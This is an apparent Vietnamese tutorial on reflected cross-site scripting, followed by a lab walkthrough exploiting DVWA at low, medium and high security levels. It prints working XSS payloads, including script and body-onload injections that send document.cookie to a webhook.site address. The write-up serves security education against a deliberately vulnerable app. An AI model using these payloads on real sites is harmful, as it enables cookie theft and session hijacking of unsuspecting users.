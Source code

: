 # What is reflected cross-site scripting?

Reflected [XSS] (https://owasp.org/www-community/attacks/xss/) xảy ra khi kẻ tấn công chèn mã thực thi của trình duyệt vào một phản hồi HTTP duy nhất. Cuộc tấn công được chèn không được lưu trữ trong chính ứng dụng; nó không liên tục và chỉ ảnh hưởng đến những người dùng mở liên kết được tạo độc hại hoặc trang web của bên thứ ba. Chuỗi tấn công được bao gồm như một phần của URI được tạo độc hại hoặc các tham số HTTP, được ứng dụng xử lý không đúng cách và trả về cho nạn nhân.

Reflected XSS là loại tấn công XSS thường gặp nhất được tìm thấy trong tự nhiên. Các cuộc tấn công Reflected XSS cũng được gọi là các cuộc tấn công XSS không liên tục và vì tải trọng tấn công được phân phối và thực hiện thông qua một yêu cầu và phản hồi duy nhất nên chúng cũng được gọi là XSS bậc nhất hoặc loại 1.

Khi một ứng dụng web dễ bị tấn công theo loại này, ứng dụng sẽ chuyển dữ liệu đầu vào chưa được xác thực được gửi qua các yêu cầu trở lại máy khách. Modus operandi phổ biến của cuộc tấn công bao gồm một bước thiết kế, trong đó kẻ tấn công tạo và kiểm tra một URI vi phạm, một bước kỹ thuật xã hội, trong đó cô ta thuyết phục nạn nhân tải URI này trên trình duyệt của họ và cuối cùng thực thi mã vi phạm bằng trình duyệt của nạn nhân.

Mã của kẻ tấn công thường được viết bằng ngôn ngữ JavaScript, nhưng các ngôn ngữ lập trình khác cũng được sử dụng, ví dụ: ActionScript và VBScript. Kẻ tấn công thường lợi dụng các lỗ hổng này để cài đặt trình ghi phím, đánh cắp cookie của nạn nhân, thực hiện hành vi trộm cắp clipboard và thay đổi nội dung của trang (ví dụ: liên kết tải xuống).

Một trong những khó khăn chính trong việc ngăn chặn các lỗ hổng XSS là mã hóa ký tự phù hợp. Trong một số trường hợp, máy chủ web hoặc ứng dụng web không thể lọc một số mã hóa ký tự, vì vậy, ví dụ, ứng dụng web có thể lọc ra `<script>`, nhưng có thể không lọc được `%3cscript%3e` chỉ bao gồm một mã hóa thẻ khác.

# Lab: Khai thác lỗi Reflected cross-site scripting (Reflected XSS) trên DVWA

1. Mức độ *Low-level-security*

   ![](./images/15-37-11.png)

   Ta thấy giao diện hiển thị một form text để nhập input vào. 

   ![](./images/15-40-02.png)
   
   Giả sử khi nhập vào chuỗi `luckyman` thì thấy được giao diện trả về có chứa từ *luckyman* => có dấu hiệu bị reflected, có thể khai thác **reflected xss**

   Thử nhập vào 1 đoạn mã 
   ```js
   <script>alert(1)</script> 
   ```

   ![](./images/15-47-52.png)

   Ta có thể chắc chắn rằng có thể chèn mã vào vị trí này được. Trong bài lab này chúng ta sẽ sử dụng trang web là [Webhook.site](), khi đoạn mã script độc hại bị kích hoạt thì nó sẽ gửi dữ liệu về trang web này. Đoạn mã tôi sử dụng có dạng như sau
   ```js
    <script>
    new Image().src = "https://webhook.site/your-id?c=" + document.cookie;
    </script>
   ```

   Bây giờ tôi chỉ việc truy cập và *Webhook.site* và thay thế đoạn URL có chứa  ID trang web tự cấp khi truy cập  vào đoạn mã bên trên.

   Qua trang *Webhook.site*, ta lấy được cookie của máy nạn nhân

   ![](./images/15-53-20.png)

2. Mức độ *Medium-level-security*

   ![](./images/15-57-10.png)

   Ở mức độ này ta thấy rằng đã có sự loại bỏ thẻ `<script>` trong khâu lập trình, dẫn đến không thể đưa đoạn mã khai thác chứa thẻ `<script>` lên mã nguồn trang web được, vậy ta thử với thẻ khác thì sao ???

   ```js
   <body onload="alert(1)">
   ``` 
   ![](./images/16-02-07.png)

   Như vậy là ta có thể khai thác thông qua thẻ `<body>`

   Ta lại sử dụng *Webhook.site* với đoạn mã sau

   ```js
   <body onload="new Image().src='https://webhook.site/f6a89df6-9e6c-4641-89b7-8315bbfc4055?c='+document.cookie">
   ```
   
   ![](./images/16-06-25.png)

   > Kết quả là ta vẫn lấy được thông tin cookie của người dùng.

3. Mức độ *High-level-security*

   Ở mức độ này, ta thấy về cơ bản nó vẫn loại bỏ thẻ `<script>`, ta thử các bước giống với mức độ medium-level-security đó là dùng thẻ `<body>`

   ![](./images/16-11-59.png)

   Lại dùng *Webhook.site* với đoạn mã tương tự mức medium

   ```js
   <body onload="new Image().src='https://webhook.site/f6a89df6-9e6c-4641-89b7-8315bbfc4055?c='+document.cookie">
   ```

   ![](./images/16-15-12.png)

   > Kết quả là ta vẫn thu được cookie của người dùng 




